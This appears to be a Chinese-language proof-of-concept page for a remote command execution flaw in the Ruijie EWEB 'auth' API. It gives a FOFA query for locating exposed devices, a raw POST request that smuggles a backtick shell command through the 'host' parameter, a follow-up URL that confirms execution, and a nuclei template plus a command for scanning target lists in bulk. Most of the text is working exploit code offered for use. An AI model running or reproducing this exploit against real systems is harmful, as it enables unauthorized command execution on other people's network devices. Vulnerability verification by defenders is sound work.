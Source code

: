 1、fofa语句

```yaml
body="cgi-bin/luci" && body="#f47f3e"
```

2、数据包

```yaml
POST /cgi-bin/luci/api/auth HTTP/1.1
Host: XXXXXXXXXX.com
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"method":"checkNet","params":{"host":"`echo c149136B>666666.txt`"}}
```

3、访问

 http://XXXXXXXXXXXX:XXXX/cgi-bin/666666.txt



![img](%E9%94%90%E6%8D%B7%20EWEB%20auth%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.assets/a3a7e0f1a18950668f0e5c0dc1a17350.png)

4、nuclei POC

基本命令： nuclei.exe -l  网址文件.txt  -t  POC.yaml





```yaml
id: ruijie-EWEB-auth-RCE
info:
  name: auth接口存在RCE漏洞
  author: someone
  severity: critical
  description: auth接口存在RCE漏洞，恶意攻击者可能会利用该漏洞执行恶意命令，进而导致服务器失陷。
  reference:
  metadata:
    verified: true
    max-request: 1
    fofa-query: body="cgi-bin/luci" && body="#f47f3e"
  tags: RCE
variables:
  filename: "{{to_lower(rand_base(10))}}"
  boundary: "{{to_lower(rand_base(20))}}"

http:
  - raw:
      - |
        POST /cgi-bin/luci/api/auth HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

        {"method":"checkNet","params":{"host":"`echo {{666}}>{{filename}}.txt`"}}


      - |
        GET /cgi-bin/{{filename}}.txt HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0


    matchers:
      - type: dsl
        dsl:
          - "status_code_2==200 && contains_all(body,'{{666}}')"
```